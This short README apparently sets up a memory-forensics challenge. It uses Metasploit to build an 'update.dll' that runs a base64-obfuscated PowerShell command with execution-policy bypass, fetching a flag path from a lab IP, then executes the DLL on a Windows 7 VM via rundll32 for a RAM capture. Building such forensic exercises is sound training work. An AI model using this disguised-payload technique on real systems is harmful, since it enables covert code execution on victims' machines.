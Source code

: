 # Payload creation

```bash
echo 'powershell.exe "wget  http://192.168.125.250:5000/32c1eb3a605f4006370eb2028f44389552e3507f/Th3W1tchER/Str1Ga; Start-Sleep -s 600"' | base64 -w0

msf> use payload/windows/exec 
msf> set CMD powershell.exe -nop -exec bypass -c "IEX ([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('cG93ZXJzaGVsbC5leGUgIndnZXQgIGh0dHA6Ly8xOTIuMTY4LjEyNS4yNTA6NTAwMC8zMmMxZWIzYTYwNWY0MDA2MzcwZWIyMDI4ZjQ0Mzg5NTUyZTM1MDdmL1RoM1cxdGNoRVIvU3RyMUdhOyBTdGFydC1TbGVlcCAtcyA2MDAiCg==')))" 
msf> generate -f dll -o update.dll
```

# Memory Dump
Upload the update.dll file to a windows 7 machine if you have vagrant install you can use it to spin up a machine.
```bash
vagrant init opensky/windows-7-professional-sp1-x64 --box-version 0.1.0
vagrant up
```

Run the following command to the windows 7 machine and take a RAM capture with [Magnet](https://www.magnetforensics.com/resources/magnet-ram-capture/)

```powershell
C:\Windows\System32\rundll32.exe shell32.dll,Control_RunDLL update.dll
```

